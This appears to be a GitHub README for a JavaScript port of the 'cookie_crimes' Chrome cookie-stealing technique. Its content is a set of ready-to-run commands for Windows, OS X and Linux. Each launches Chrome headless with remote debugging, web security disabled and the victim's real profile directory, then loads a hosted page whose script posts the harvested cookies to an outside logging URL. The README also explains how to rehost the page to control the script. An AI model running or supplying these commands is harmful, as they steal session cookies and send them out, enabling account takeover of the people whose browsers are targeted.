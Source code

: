 This is a javascript implementation of the [cookie_crimes tool](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password) by @mangopdf

Running the command below will run the javascript found in the *index.html* file of this repo which has been setup using Github Pages. It is currently harcoded to post the script output to my own loggly.com URL. Host it on your own github to control the script completely and enable GitHub pages in your repository settings to serve the page as an HTML file.

Thank you to @shellsterdude as well for the hints and tips he gave me as well as help testing.

# Windows

## Windows 10

## 64 Bit

```"%PROGRAMFILES(X86)%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/TestCC/```

## 32 Bit

```"%PROGRAMFILES%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/TestCC/```

## Windows 7

```"%localAppData%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/TestCC/```

# OS X

```"/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="$HOME/Library/Application Support/Google/Chrome" --disable-plugins https://clr2of8.github.io/TestCC/```

# Linux

```google-chrome --remote-debugging-port=9222 --disable-web-security --user-data-dir="~/.config/google-chrome/default" --disable-plugins https://clr2of8.github.io/TestCC/```
